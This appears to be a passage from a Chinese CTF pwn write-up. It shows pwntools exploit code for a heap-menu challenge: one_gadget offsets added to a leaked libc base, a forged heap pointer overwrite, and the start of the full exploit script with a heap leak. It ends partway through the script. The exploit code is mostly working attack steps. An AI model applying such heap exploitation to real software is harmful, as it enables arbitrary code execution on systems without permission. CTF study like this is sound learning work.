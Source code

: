 ```python
    one = [0x4f3d5, 0x4f432, 0x10a41c]
    ogg = slog['libc'] + one[1]
    print("one: " + hex(ogg))
    pogg = slog['bheap'] + 0x13a98
    print("poop: " + hex(pogg))

    set(1)
    new(1, 'b' * 0x18)
    new(2, flat(pogg, ogg).ljust(0x18, b'c'))
    eat()
```



完整exp

::: details

```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-
# vim:fenc=utf-8
#
# Copyright © 2020 wlz <wlz@kyria>
#
# Distributed under terms of the MIT license.

from pwn import * 

pie  = 1
arch = 64
bps  = [0x0000000000015471, 0x000000000001595B, 0x000000000001548F]

def new(idx, name):
    sla("choice:", '0')
    sla("idx:", str(idx))
    sla("name:", name)

def set(idx):
    sla("choice:", '1')
    sla("idx:", str(idx))

def show():
    sla("choice:", '2')

def eat():
    sla("choice:", '3')

def exp():
    new(0, 'a' * 0x780)
    set(0)
    gdba()

def exp1():
    new(0, 'a' * 0x780)
    set(0)
    new(0, 'b' * 0x30)

    # new(0, 'c' * 0x18)
    show()
    ru("name: ")
    re(0x48, 2)
    heap = u64(re(8, 2))
    slog['heap'] = heap
    bheap = heap - 0x13290
```